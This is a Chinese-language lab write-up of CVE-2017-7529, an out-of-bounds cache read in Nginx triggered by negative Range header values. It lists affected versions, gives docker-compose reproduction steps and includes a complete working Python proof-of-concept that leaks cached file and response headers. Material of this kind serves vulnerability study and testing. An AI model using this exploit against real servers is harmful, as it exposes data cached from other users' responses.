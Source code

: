 （CVE-2017-7529）Nginx 越界读取缓存漏洞
=======================================

一、漏洞简介
------------

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括"文件头"+"HTTP返回包头"+"HTTP返回包体"。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的"HTTP返回包体"返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600,
-9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于"HTTP返回包体"前的"文件头"、"HTTP返回包头"等内容。

二、漏洞影响
------------

-   Nginx Nginx:1.13.2
-   Nginx Nginx:1.13.1
-   Nginx Nginx:1.13.0
-   Nginx Nginx:1.11.13
-   Nginx Nginx:1.11.12

三、复现过程
------------

运行测试环境：

    docker-compose up -d

访问`http://www.0-sec.org:8080/`，即可查看到Nginx默认页面，这个页面实际上是反向代理的8081端口的内容。

调用`python3 poc.py http://www.0-sec.org:8080/`，读取返回结果

![](./resource/(CVE-2017-7529)Nginx越界读取缓存漏洞/media/rId24.png)

可见，越界读取到了位于"HTTP返回包体"前的"文件头"、"HTTP返回包头"等内容。

如果读取有误，请调整poc.py中的偏移地址（605）。

### poc

    #!/usr/bin/env python
    import sys
    import requests

    if len(sys.argv) < 2:
        print("%s url" % (sys.argv[0]))
        print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
        sys.exit()

    headers = {
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
    }
    offset = 605
    url = sys.argv[1]
    file_len = len(requests.get(url, headers=headers).content)
    n = file_len + offset
    headers['Range'] = "bytes=-%d,-%d" % (
        n, 0x8000000000000000 - n)

    r = requests.get(url, headers=headers)
    print(r.text)

参考链接
--------

> https://vulhub.org/\#/environments/nginx/CVE-2017-7529/
